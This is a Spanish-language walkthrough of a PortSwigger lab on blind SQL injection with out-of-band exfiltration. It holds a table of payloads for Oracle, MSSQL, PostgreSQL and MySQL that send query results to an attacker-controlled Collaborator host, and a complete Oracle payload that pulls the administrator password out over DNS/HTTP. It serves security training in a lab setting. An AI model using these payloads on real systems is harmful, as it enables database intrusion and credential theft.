

# Lab: Blind SQL injection with out-of-band data exfiltration

Puede hacer que la base de datos realice una búsqueda de DNS en un dominio externo que contenga los resultados de una consulta inyectada. Para ello, deberá utilizar [Burp Collaborator](https://portswigger.net/burp/documentation/desktop/tools/collaborator) para generar un subdominio exclusivo de Burp Collaborator que utilizará en su ataque y, luego, sondear el servidor de Collaborator para recuperar detalles de cualquier interacción de DNS, incluidos los datos exfiltrados.

|            |                                                                                                                                                                                                                                                                                            |
| ---------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| Oracle     | `SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'\|(SELECT YOUR-QUERY-HERE)\|'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual`                                                                          |
| Microsoft  | `declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.BURP-COLLABORATOR-SUBDOMAIN/a"')`                                                                                                                                                             |
| PostgreSQL | `create OR replace function f() returns void as $$ declare c text; declare p text; begin SELECT into p (SELECT YOUR-QUERY-HERE); c := 'copy (SELECT '''') to program ''nslookup '\|p\|'.BURP-COLLABORATOR-SUBDOMAIN'''; execute c; END; $$ language plpgsql security definer; SELECT f();` |
| MySQL      | <p>The following technique works on Windows only:<br><code>SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'</code></p>                                                                                                                                              |

En este ejercicio debemos de obtener las credenciales del usuario administrator, por lo que nos ayudaremos de `burp collaborator`, para ello usamos la siguiente `query`.

```c
' || (SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT password from users where username='administrator')||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual)-- -
```

La consulta debemos de ponerla dentro de : `' || (<query>)`. Luego hacemos url encode y podemos enviarla para obtener las credenciales del usuario.


